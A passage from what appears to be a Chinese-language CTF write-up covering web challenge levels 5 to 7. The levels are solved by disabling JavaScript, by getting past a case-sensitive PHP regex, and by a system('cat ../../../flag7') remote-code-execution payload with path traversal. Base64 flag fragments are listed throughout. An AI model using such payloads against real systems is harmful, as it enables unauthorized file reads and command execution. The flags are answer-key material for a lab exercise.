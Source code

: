 ```
flag1: bW9lY3Rm
flag2：e0FmdEV
flag3: yX3RoMXN
flag4：fdFVUMHJ
```

第五关直接禁用js就行了

![image-20240825213750207](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408252137270.png)

```
flag1: bW9lY3Rm
flag2：e0FmdEV
flag3: yX3RoMXN
flag4：fdFVUMHJ
flag5: fSV90aDF
```

第六关我们要审计代码

```
<?php
highlight_file("flag6diw.php");
if (isset($_GET['moe']) && $_POST['moe']) {
    if (preg_match('/flag/', $_GET['moe'])) {
        die("no");
    } elseif (preg_match('/flag/i', $_GET['moe'])) {
        echo "flag6: xxx";
    }
}
```

第一个if的正则匹配和第二个的区别就是大小写的区别，我们用大写的flag直接绕过

![image-20240825214025941](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408252140990.png)

```
flag1: bW9lY3Rm
flag2：e0FmdEV
flag3: yX3RoMXN
flag4：fdFVUMHJ
flag5: fSV90aDF
flag6: rZV9VX2t
```

第7关我们进行rce

```
what=system("cat ../../../flag7");
```

```
 flag1: bW9lY3Rm
flag2：e0FmdEV
flag3: yX3RoMXN
flag4：fdFVUMHJ
flag5: fSV90aDF
flag6: rZV9VX2t
 flag7:rbm93X1dlQn0=
```
